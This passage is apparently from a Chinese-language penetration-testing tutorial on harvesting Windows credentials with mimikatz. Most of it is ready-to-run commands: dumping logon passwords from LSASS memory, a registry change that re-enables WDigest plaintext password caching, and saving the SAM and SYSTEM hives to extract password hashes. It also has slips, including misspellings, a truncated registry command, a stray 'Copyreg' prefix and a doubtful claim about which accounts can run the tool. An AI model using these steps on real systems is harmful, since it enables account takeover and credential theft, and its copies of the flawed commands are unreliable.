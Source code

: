 ```
sekurlsa::logonPasswords
```

如果报错，可能是注册表问题，尝试在cmd中输入如下命令（管理员模式）

```
reg add hklm\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential 
```



**原理：**

当用户登陆后,会把账号密码保存在 Isass中，Isass是微软 Windows系统的安全机制它主要用于本地安全和登陆策略，通常我们在登陆系统时输入密码之后，密码便会储存在lsass内存中，经过其 Wdigest和 tspg两个模块调用后，对其使用可逆的算法进行加密并存储在内存之中，而mimikatz正是通过对lsass的逆算获取到明文密码



> 注：但是在安装了KB2871997补丁或者系统版本大于windows server 2012时，系统的内存中就不再保存明文的密码，这样利用mimikatz就不能从内存中读出明文密码了。
>
> mimikatz的使用需要administrator用户执行，administrators中的其他用户都不行。







### 获取系统HASH

#### **本地执行：**

```bash
#提升权限
privilege::debug

#抓取密码
sekurlsa::logonpasswords
```

当目标为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，但可以通过修改注册表的方式抓取明文。如下：

cmd修改注册表命令：

```dockerfile
Copyreg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
#重启或用户重新登录后可以成功抓取
```



#### **SAM表获取hash:**

```bash
# 非在线获取，没有将mimikatz传到目标机器上去，就要想办法将这两个文件获取下来（需要管理员权限）
#导出SAM数据
reg save HKLM\SYSTEM SYSTEM
reg save HKLM\SAM SAM

#使用mimikatz提取hash
lsadump::sam /sam:SAM /system:SYSTEM
```
